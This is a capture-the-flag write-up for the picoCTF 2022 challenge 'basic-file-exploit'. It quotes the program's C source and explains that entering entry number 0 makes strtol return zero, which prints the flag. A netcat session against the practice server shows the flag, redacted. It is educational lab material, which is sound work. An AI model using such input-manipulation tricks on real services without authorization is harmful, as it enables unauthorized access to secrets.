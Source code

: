 # basic-file-exploit

- [Challenge information](basic-file-exploit.md#challenge-information)
- [Solution](basic-file-exploit.md#solution)

## Challenge information
```
Points: 100
Tags: picoCTF 2022, Binary Expoitation
Author: WILL HONG

Description:
The program provided allows you to write to a file and read what you wrote from it. 
Try playing around with it and see if you can break it!

Connect to the program with netcat:
$ nc saturn.picoctf.net 50959

The program's source code with the flag redacted can be downloaded here.
 
Hints:
1. Try passing in things the program doesn't expect. Like a string instead of a number.
```

## Solution

### Study the source code

The `main` function of the program look like this
```c
int main(int argc, char** argv) {
  char input[3] = {'\0'};
  long command;
  int r;

  puts("Hi, welcome to my echo chamber!");
  puts("Type '1' to enter a phrase into our database");
  puts("Type '2' to echo a phrase in our database");
  puts("Type '3' to exit the program");

  while (true) {   
    r = tgetinput(input, 3);
    // Timeout on user input
    if(r == -3)
    {
      printf("Goodbye!\n");
      exit(0);
    }
    
    if ((command = strtol(input, NULL, 10)) == 0) {
      puts("Please put in a valid number");
    } else if (command == 1) {
      data_write();
      puts("Write successful, would you like to do anything else?");
    } else if (command == 2) {
      if (inputs == 0) {
        puts("No data yet");
        continue;
      }
      data_read();
      puts("Read successful, would you like to do anything else?");
    } else if (command == 3) {
      return 0;
    } else {
      puts("Please type either 1, 2 or 3");
      puts("Maybe breaking boundaries elsewhere will be helpful");
    }
  }

  return 0;
}
```

Nothing much intresting here and the program even tells us that `breaking boundaries elsewhere will be helpful`.

Lets see were the flag is printed, that is in the `data_read` function
```c
static void data_read() {
  char entry[4];
  long entry_number;
  char output[100];
  int r;

  memset(output, '\0', 100);
  
  printf("Please enter the entry number of your data:\n");
  r = tgetinput(entry, 4);
  // Timeout on user input
  if(r == -3)
  {
    printf("Goodbye!\n");
    exit(0);
  }
  
  if ((entry_number = strtol(entry, NULL, 10)) == 0) {
    puts(flag);
    fseek(stdin, 0, SEEK_END);
    exit(0);
  }

  entry_number--;
  strncpy(output, data[entry_number], input_lengths[entry_number]);
  puts(output);
}
```

If we input something which input to the `strtol` function returns 0, we get the flag.
The [strtol](https://www.tutorialspoint.com/c_standard_library/c_function_strtol.htm) function converts 
strings to long integers. 

A return value of zero signals a failure in the convertion but if we input the string "0" 
we also get a zero value so lets use that.

### Plan of attack

We "reach" the `data_read` function directly since thr program checks if there is data available
as we see in this code snippet of `main`
```c
    } else if (command == 2) {
      if (inputs == 0) {
        puts("No data yet");
        continue;
      }
      data_read();
      puts("Read successful, would you like to do anything else?");
```

So we start by entering some bogus data.

Then we try to read and when asked for the entry we select entry number `0`.

### Connect to the server and get the flag

Finally, lets get the falg
```
┌──(kali㉿kali)-[/picoCTF/picoCTF_2022/Binary_Exploitation/Basic_File_Exploit]
└─$ nc saturn.picoctf.net 50959
Hi, welcome to my echo chamber!
Type '1' to enter a phrase into our database
Type '2' to echo a phrase in our database
Type '3' to exit the program
1
1
Please enter your data:
picoCTF
picoCTF
Please enter the length of your data:
7
7
Your entry number is: 1
Write successful, would you like to do anything else?
2
2
Please enter the entry number of your data:
0
0
picoCTF{<REDACTED>}
```
